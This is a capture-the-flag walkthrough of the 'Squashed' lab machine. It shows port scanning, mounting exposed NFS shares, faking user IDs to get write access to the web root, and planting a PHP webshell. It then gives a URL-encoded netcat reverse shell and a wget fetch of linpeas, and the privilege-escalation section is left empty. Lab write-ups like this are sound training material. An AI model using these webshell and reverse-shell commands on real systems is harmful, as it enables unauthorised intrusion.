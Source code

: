# Squashed (Easy)

<figure><img src="../../../.gitbook/assets/Squashed.png" alt=""><figcaption></figcaption></figure>

## Information Gathering

Scanned all TCP ports:

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Built Better
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      36214/udp6  mountd
|   100005  1,2,3      37093/tcp6  mountd
|   100005  1,2,3      42899/tcp   mountd
|   100005  1,2,3      48117/udp   mountd
|   100021  1,3,4      39287/tcp6  nlockmgr
|   100021  1,3,4      43699/tcp   nlockmgr
|   100021  1,3,4      46570/udp   nlockmgr
|   100021  1,3,4      53611/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp open  nfs_acl 3 (RPC #100227)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Enumerated UDP ports:

```
```

Notes:

* <mark style="color:yellow;">SSH</mark> is a possible entry point
* <mark style="color:yellow;">HTTP</mark> is a possible entry point (Apache 2.4.41)
* 2049 <mark style="color:yellow;">NFS</mark> -- Must enumerate for information disclosure etc.

## Enumeration

### Port 80 - HTTP (Apache 2.4.41)

* Added IP address of machine to /etc/hosts under squashed.htb

Directory Bruteforce (Dirsearch):

```
dirsearch -u http://squashed.htb
```

* <mark style="color:yellow;">No lucrative findings</mark>

### Port 2049 - NFS

List available NFS shares:

```
showmount -e squashed.htb

/home/ross    *
/var/www/html *
```

Mount the home directory:

```
sudo mount -t nfs squashed.htb:/home/ross /mnt
```

Enumerate mounted directory:

```
find /mnt -ls
```

<figure><img src="../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

<mark style="color:yellow;">We can see that the contents of this directory are all 1001. This is the default permission set for a newly created user. It is 1001 because we do not have a user on our machine with those permissions. So what happens if we try to access it with a newly created user?</mark>

Create user:

```
adduser hacker
```

We can now see **hacker** instead of id 1001 because we have added **hacker** to the machine with the same permissions:

<figure><img src="../../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

Switch user to **hacker**:&#x20;

```
su hacker -c bash
```

There is not anything of use in here let's mount the next directory.

We will need to unmount the current directory first:

```
sudo umount /mnt
sudo mount -t nfs squashed.htb:/var/www/html /mnt
```

After viewing the contents, we see a new id of 2017. We can set this with `usermod`:

```
sudo usermod -u 2017 hacker
```

Switch user:&#x20;

```
su hacker -c bash
```

We can now see that we have access to everything with our new id of 2017:

<figure><img src="../../../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

It appears that we are in the <mark style="color:yellow;">web root directory. Can we write to this?</mark>

```
echo "Hacker-here" > /mnt/hacker.html
```

<figure><img src="../../../.gitbook/assets/image (1) (4) (3).png" alt=""><figcaption></figcaption></figure>

Yes, we can! Time to place a webshell in this directory and gain access to this machine!

## Exploitation

Since we found out that /var/www/html is writeable through NFS exploitation, we can place a webshell in here and gain access to the webserver!

Adding webshell into /var/www/html:

```
echo -e '<?php\n  system($_REQUEST['cmd']);\n?>' > /mnt/backdoor.php
```

Commands can be executed through the web browser via <mark style="color:yellow;">`?cmd=whoami`</mark>

<figure><img src="../../../.gitbook/assets/image (5) (1) (8).png" alt=""><figcaption></figcaption></figure>

Let's grab a reverse shell through revshells and gain access to this machine

{% embed url="https://www.revshells.com/" %}

* nc mkfifo
* Be sure to URL encode it

This is what my URL encoded reverse shell looked like:

```
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.10.14.10%201337%20%3E%2Ftmp%2Ff
```

Fix your shell:

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

{% embed url="https://brain2life.hashnode.dev/how-to-stabilize-a-simple-reverse-shell-to-a-fully-interactive-terminal" %}

If you are using a Terminal emulator such as Terminator, I found it easier to use the default terminal program for reverse shells.

<mark style="color:yellow;">The user.txt flag can be found in alex's home directory!</mark>

## Privilege Escalation

* Let's transfer and run linpeas

On Kali -- Start HTTP server for file transfer:

```
python3 -m http.server
```

On reverse shell -- wget for catching hosted file:

```
wget http://<kali_ip_here>:8000/linpeas_linux_amd64
```

Change permissions and execute file:

```
chmod +x linpeas_linux_amd64
./linpeas_linux_amd64
```

* I was unable to find something of use

### Local enumeration

### PrivEsc vector

##

